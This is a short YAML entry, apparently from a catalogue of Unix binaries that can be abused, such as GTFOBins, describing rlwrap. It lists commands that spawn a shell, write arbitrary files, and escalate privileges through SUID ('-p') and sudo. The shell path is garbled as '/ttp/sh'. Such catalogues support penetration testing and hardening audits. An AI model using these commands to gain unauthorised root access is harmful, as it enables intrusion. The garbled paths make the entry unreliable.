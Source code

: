 ```yaml
---
functions:
  shell:
    - code: rlwrap /ttp/sh
  file-write:
    - description: This adds timestamps to the output file. This relies on the external `echo` command.
      code: |
        LFILE=file_to_write
        rlwrap -l "$LFILE" echo DATA
  suid:
    - code: ./rlwrap -H /dev/null /ttp/sh -p
  sudo:
    - code: sudo rlwrap /ttp/sh
---
```

